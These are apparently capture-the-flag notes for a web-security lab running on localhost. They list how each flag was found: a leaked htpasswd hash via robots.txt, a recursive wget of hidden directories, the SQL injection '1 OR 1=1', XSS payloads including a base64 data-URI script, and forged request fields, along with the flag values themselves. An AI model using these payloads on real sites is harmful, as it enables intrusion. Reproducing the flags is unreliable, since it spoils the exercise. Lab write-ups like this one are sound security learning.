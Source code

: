 
- http://localhost:8888/robots.txt
    - /whatever -> download a file htpasswd -> root:437394baff5aa33daa618be47b75cb49 
    - /.hidden  -> Multiple directories and subdirectories to discover

    ```bash
        > wget -e robots=off --recursive --no-parent  http://localhost:8888/.hidden/
        > grep -R "flag" -> whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README:Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466 
    ```

flag: d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

---

- SQL Injection:
    - http://localhost:8888/?page=member
    - ' give us an Sql error meaning that there is a possible SQL injection
    - 1 OR 1=1-- - List us every users and the columns (2 columns: First name and Surname)
        - SELECT name, surname FROM users WHERE id = 1 OR 1=1-- -; become SELECT name, surname FROM users WHERE TRUE
    ```bash
        ID: 1 OR 1=1-- -; 
        First name: one
        Surname : me
        ID: 1 OR 1=1-- -; 
        First name: two
        Surname : me
        ID: 1 OR 1=1-- -; 
        First name: three
        Surname : me
        ID: 1 OR 1=1-- -; 
        First name: Flag
        Surname : GetThe
    ```
    // TODO //

--- 

- Recover Email:
    - http://localhost:8888/index.php?page=recover
    - Intercept POST request with Burp and modify e-mail with our e-mail and get the flag
    - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

---

- XSS:
    - http://localhost:8888/?page=feedback
    - &#60;a href=# onpointerenter=alert(1)&#62;Hover&#60;/a&#62;  (Url encoded from <a href=# onpointerenter=alert(1)>Hover me</a>)
    - Flag: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e

---
- XSS 2:
    - http://localhost:8888/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=
    - Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

---
- HTTP Header Modification
    - Clicking on the @BornToSec link we get to this url:
    - http://localhost:8888/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
    - In the source code we see that you have to change the referer and user-agent parameter of the http request in order to get the flag.